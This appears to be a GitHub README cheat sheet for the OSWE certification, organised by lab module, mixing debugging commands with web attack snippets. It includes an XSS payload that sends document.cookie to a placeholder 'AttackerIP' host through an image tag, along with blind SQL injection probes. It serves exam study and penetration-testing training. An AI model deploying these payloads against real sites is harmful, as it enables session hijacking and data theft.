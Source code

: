 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus:

Module : Atmail (PHP):

1. Access and alert cookie payload (Httponly flag should be disable in set-Cookie headers)<br>
    #<script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    #python3 -m http.server
    
3. Embeded cookie steal payload in image tag<br>
    #function addImage() {<br>
    #var img = document.createElement('img');<br>
    #img.src = 'http://AttackerIP:port/' + document.cookie;<br>
    #document.body.appendChild(img);<br>
    #}<br>
    #addImage();<br>
    
4. Set cookie by web developer console<br>
    #javascript:void(document.cookie="cookiename=value");
 
5. XHR POST Request <br>
    #xhr= new XMLHttpRequest()<br>
    #xhr.open("POST", url, true)<br>
    #xhr.send(data)<br>
    
6. XHR GET Request <br>
    #xhr= new XMLHttpRequest()<br>
    #xhr.open("GET", url, true)<br>
    #xhr.send()<br>

 Module : ATutor Authentication Bypass and RCE (PHP) :<br>
 1. Enable MySQL DB logging<br>
    #nano /etc/mysql/my.cnf         // uncomment or add below line<br>
            #[mysqld]<br>
            #general_log_file = /var/log/mysql/mysql.log<br>
            #general_log = 1<br>
    #systemctl restart mysql        //Restart MySQL<br>
    #tail –f /var/log/mysql/mysql.log   //Access MySQL Log<br>
    
 2. Enable PHP verbose error<br>
    #nano /etc/php5/apache2/php.ini   //uncomment or add below line<br>
        #display_errors = On <br>
    #systemctl restart apache2     //Restart Apache<br>
    
3. Print statement in PHP<br>
    #echo "any message";<br>
    
4. Dump information about varaible<br>
    #var_dump($var);<br>
    
5. Serach for fiunction in code<br>
    #grep -rnw "function name(" ./ --color<br>
    
5. Check magic quote enable<br>
    #var_dump(get_magic_quotes_gpc());  /** for enable value is 1 **/<br>
    
6. MYSQL query without space<br>
    #mysql> select/**/1; <br>
    
7. Extract first character of MySql version in case of blind MySQL query<br>
    #mysql> select ascii(substring((select/**/version()),1,1))=53;  /** use with "or" boolean **/<br>

    
